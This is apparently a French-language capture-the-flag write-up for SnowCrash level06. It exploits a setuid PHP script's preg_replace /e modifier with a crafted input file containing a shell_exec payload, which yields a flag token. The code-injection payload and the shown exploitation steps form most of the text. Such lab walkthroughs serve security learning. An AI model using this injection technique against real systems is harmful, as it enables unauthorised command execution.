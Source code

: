 
# **Level 06**

Pour ce level06, 2 fichier dans le repertoire courant

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

```

On affiche donc le `.php`

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}
function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>

```
> On a reformater l'output pour rendre la code plus lisible

On remarque que le premier arguments de la fonction est parser via des `preg_replace`, notament le premier aui utilise l'option `/e` qui permet d'interpreter le contenue comme du code PHP

En comprenant le `REGEX` utiliser des les preg replace on peux ecrire dans un fichier un ligne permettant d'executer `getflag`

```
level06@SnowCrash:~$ cat /var/crash/level06f 
[x {${shell_exec(getflag)}}]
```

Puis on passe ce fichier a l'executable qui peux executer le code avec les droits de flag06 (`rws`)

```
level06@SnowCrash:~$ ./level06 /var/crash/level06f 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : `wiok45aaoguiboiki2tuin6ub`
 in /home/user/level06/level06.php(4) : regexp code on line 1

```


> ### NEXT : [Level 07](/level07/resources/README.md)

